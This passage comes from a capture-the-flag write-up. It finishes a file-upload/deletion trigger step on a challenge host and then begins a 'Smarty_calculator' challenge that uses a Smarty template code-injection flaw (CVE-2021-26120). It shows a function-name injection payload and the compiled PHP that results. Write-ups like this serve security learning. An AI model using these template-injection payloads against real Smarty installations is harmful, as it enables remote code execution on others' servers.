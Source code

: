 Then use the modified file to access `http://eci-2zehsthmgb5z68m80j4g.cloudeci1.icunqiu.com/album/imgupload` to upload the file, then access `http://eci-2zehsthmgb5z68m80j4g.cloudeci1.icunqiu.com/album/imgdelete`, and enter `/var/www/public/img/59901a7488e9011cd161f102d9430895.png` to trigger the vulnerability.

<div align=center><img src="./images/8.png"></div>

# Smarty_calculator
## Question analysis
I still visited the question link/www.zip to get the question source code, added `Cookie: login=1` and `POST {$smarty.version}`, and successfully got the version information. Since the question said that the developer modified the template rules themselves, I pulled `Smarty 3.1.39` here for comparison, and found that the regular rules were modified.

<div align=center><img src="./images/9.png"></div>

<div align=center><img src="./images/10.png"></div>

<div align=center><img src="./images/11.png"></div>

After searching for the question information, I found that there are vulnerabilities that can be exploited. The `Smarty_Internal_Runtime_TplFunction`Sandbox Escape`PHP` code injection vulnerability (CVE-2021-26120), refer to [GitHub Update](https://github.com/smarty-php/smarty/commit/290aee6db33403a4b9426b572b79a990232b31dd).

Since the `Smarty` class cannot correctly filter the `name` attribute `tplFunctions` when compiling the template syntax, the `Smarty_Internal_Runtime_TplFunction` class when defining cannot correctly filter the `name`attacker can execute code remotely by injecting `Payload`.

<div align=center><img src="./images/12.png"></div>

But this vulnerability is different from this vulnerability, and it needs to be bypassed. First, just `POST` one data is `data={function name='(){};'}{/function}`

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:35:26
  from 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ecbe814d21_96774455',
  'has_nocache_code' => false,
  'file_dep
endency' =>
  array (
  ),
  'includes' =>
  array (
  ),
),false)) {
function content_6239ecbe814d21_96774455 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};' =>
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\cca2ce857d642a4c0875c01a8508fdfe6fb1889f_0.string.php',
    'uid' => 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f',
    'call_name' => 'smarty_template_function_(){};_18679747696239ecbe74eee5_05027020',
  ),
));
}
```